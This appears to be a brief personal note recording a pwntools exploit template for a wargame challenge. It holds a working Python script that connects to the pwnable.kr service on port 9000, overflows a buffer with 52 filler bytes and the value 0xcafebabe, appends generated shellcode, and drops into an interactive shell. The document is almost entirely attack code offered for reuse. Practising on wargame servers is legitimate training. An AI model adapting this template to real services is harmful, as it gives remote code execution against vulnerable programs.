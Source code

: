 #### Record some expolit of  payload.

pwntools起手式

`from pwn import *
# 0xcafebabe
r = remote('pwnable.kr', '9000')
shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52
payload += buf
payload += shell

r.sendline(payload)

r.interactive()`
